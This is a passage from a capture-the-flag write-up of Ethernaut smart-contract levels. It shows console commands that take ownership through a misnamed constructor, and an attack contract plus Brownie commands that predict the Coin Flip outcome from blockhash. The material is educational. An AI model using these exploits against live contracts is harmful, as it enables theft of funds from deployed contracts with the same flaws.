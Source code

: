 **Solution**
Just using the browser console

```js
await contract.owner()
'0x0000000000000000000000000000000000000000'

await contract.Fal1out({value: 1234})
⛏️ Sent transaction ⛏
⛏️ Mined transaction ⛏

await contract.owner()
'0x355705B24b94414d7A8fCD3A7A7e2849EE9029Ce'

<>_<> Submitting level instance... <  < <<PLEASE WAIT>> >  >
⛏️ Sent transaction ⛏
⛏️ Mined transaction ⛏

◕_◕ Well done, You have completed this level!!!
```

### 3. Coin Flip
- It supposes to be a random game, but the contract uses `block.number` as random generator
  ```solidity
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));
  uint256 coinFlip = blockValue.div(FACTOR);
  bool side = coinFlip == 1 ? true : false;
  ```

**Solution**
- Need to create a new contract that use that random generator to feed to `flip` function
  - Define `interface` to CoinFlip contract
    ```solidity
    challenge = ICoinFlip(_coinFlipAddress)
    ```
  - The Attack contract
    - Attack function that calls `challenge.flip(side)` whereas `side` is calculated base on CoinFlip contract
    ```solidity
      uint256 blockValue = uint256(blockhash(block.number - 1));
      uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
          // just use normal arithmetic directly, no SafeMath
      bool side = coinFlip == 1 ? true : false;
      challenge.flip(side);
    ```

- The attack contract is in `contracts/03_CoinFlip/CoinFlipAttack.sol`

- `brownie console --network rinkeby`
```bash
>>> challenge_address = '...'

# deploying attack contract
>>> attackContract = CoinFlipAttack.deploy(challenge_address, {'from': hacking_account})

# call this 10 times and pass the challenge
# can use Rinkeby-fork for fast experience with for loop, 
# or use sleep() to wait to transaction to confirm on Rinkeby
>>> attackContract.attack({'from': hacking_account})
```
